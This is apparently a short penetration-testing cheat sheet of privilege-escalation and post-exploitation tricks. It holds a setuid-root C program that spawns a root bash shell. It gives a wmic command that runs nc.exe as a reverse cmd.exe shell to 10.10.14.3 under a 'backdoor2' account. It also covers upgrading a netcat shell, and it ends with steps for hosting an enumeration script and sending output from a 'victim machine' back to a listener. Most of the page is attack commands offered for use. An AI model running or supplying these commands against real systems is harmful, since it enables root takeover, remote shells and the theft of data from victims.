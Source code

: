  ### Quick setuid binary
 
 useful if you can get a process like a cron job to run a binary for example...
 
 
 make a file with this:
 
 ~~~
 #include <unistd.h>
int main(void)
{
setuid(0);
setgid(0);
system("/bin/bash");
}
~~~

then compile and run it as root

~~~
gcc exploit.c -m32 -o exploit
~~~

### Using WMIC to runas a different user in a non-interactive session

By default in Windows, you cannot use the <code>runas</code> without on interactive shell/cmd prompt (typical if you just have an nc shell or just remote code execution for some one-liners). So, you can use wmic to launch a process with a password on the cmd line as another user. Bonus points if you have admin creds

~~~
c:\Users\mssql-svc\Desktop>wmic /user:backdoor2 /password:password123 process call create "c:\users\mssql-svc\desktop\nc.exe 10.10.14.3 444 -e c:\windows\system32\cmd.exe"
~~~

### upgrade your shell

Often your nc shell lacks a lot of useful features... you can upgrade it to perform better

~~~
python -c 'import pty;pty.spawn("/bin/bash")'
ctrl+z
stty raw -echo & fg
~~~

### File transfers with enum scripts

avoid having review your enum script output on the victim machine by hosting your enum script in a webserver and sending output back to your listener

open a webserver to host your enum tool:

<code>python3 -m http.server 8888</code> OR <code>python2 -m Simple.HTTP.Server 8888</code>

open a listener and your attacking system: 

<code>nc -lnvp 8888 -w 5 > output.txt</code>
